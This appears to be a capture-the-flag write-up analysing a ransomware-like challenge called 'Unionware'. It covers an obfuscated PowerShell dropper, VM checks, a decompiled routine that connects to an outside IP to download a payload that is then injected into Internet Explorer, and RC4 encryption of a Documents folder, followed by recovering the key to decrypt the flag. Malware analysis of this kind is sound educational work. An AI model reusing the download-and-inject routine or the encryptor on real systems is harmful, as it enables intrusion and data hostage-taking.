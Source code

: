 # **Unionware**

### **Description:**

![image0](\images\image0.png)

### **Part 1: powershell file analysis**

This is an obfuscate form of powershell, used `spit()` . Write scripts to get content clearly. Then we will have the file  `lnELKNdoie .exe`

### **Part 2: `lnELKNdoie.exe` file analysis**

At the beginning of the file there is `checkVM` function and some other checks, I choose next directly through these checks.

![image1](\images\image1.png)

Enter `conn`  function, because the file used `xor obfuscate`, I debug to know function to be called, explain to `conn`:

```c
// 
v6 = ((int (__cdecl *)(int, int *, int, int))ws2_32_WSAStartup(514, &v40, a3, a4);
// get info of this addr 35.241.159.62 --> 62.159.241.35.bc.googleusercontent.com
((int (__stdcall *)(__m128i *, int, _DWORD *, void (**)(void)))ws2_32_getaddrinfo)(&v38, dword_40A3F8, v41, &v39);
// socket
    s = (const CHAR *)((int (__stdcall *)(_DWORD, _DWORD, _DWORD, __m128i *))ws2_32_socket)(*((_DWORD *)v39 + 1),*((_DWORD *)v39 + 2),*((_DWORD *)v39 + 3),v48);
// conn addr above
((int (__stdcall *)(const CHAR *, _DWORD, _DWORD))ws2_32_connect)(s,*((_DWORD *)v35 + 6),*((_DWORD *)v35 + 4));
// send: "KADMKLAFD:LSM$OPM@FLK:FM!N$@N$"
((int (__stdcall *)(const CHAR *, __m128i *, int, _DWORD))ws2_32_send)(s,&v28,&v28.m128i_i8[strlen(v28.m128i_i8) + 1] - &v28.m128i_i8[1],0)
 // recv
((int (__stdcall *)(const CHAR *, _BYTE *, int, _DWORD))ws2_32_recv)(s, buf, 1024, 0);
// shutdown
(int (__stdcall *)(const CHAR *, int))ws2_32_shutdown)(s, 1);
```

receive data until  `size == 0x6B200`:

![image2](\images\image2.png)

The downloaded file will be Injected into IE, this Inject technique is quite similar [link](https://www.ired.team/offensive-security/code-injection-process-injection/injecting-to-remote-process-via-thread-hijacking)

### **Part 3: phân tích file `out.exe`**

The file will look in the folder `Document` file plaintext:

```c
  v14 = SHGetFolderPathA(0, 5, 0, 0, pszPath);
  j_strncat(pszPath, "\\j3w3ls", 8u);           // //Documents//j2w3ls
```

process `encrypt data`:

![image3](\images\image3.png)

Enter `encrypt`  function, we will see many functions that define the functions in the `cryptopp` library, and then create `key 128bytes` by `random` function with seed at the time of `encrypt` :

![image4](\images\image4.png)

Struct file:

- The first 128 bytes are the key RC4
- The other is the ciphert text

Writing a simple script to recover the original file is going to have the `flag`.

### Reference

[RC4.c](https://gist.github.com/rverton/a44fc8ca67ab9ec32089)
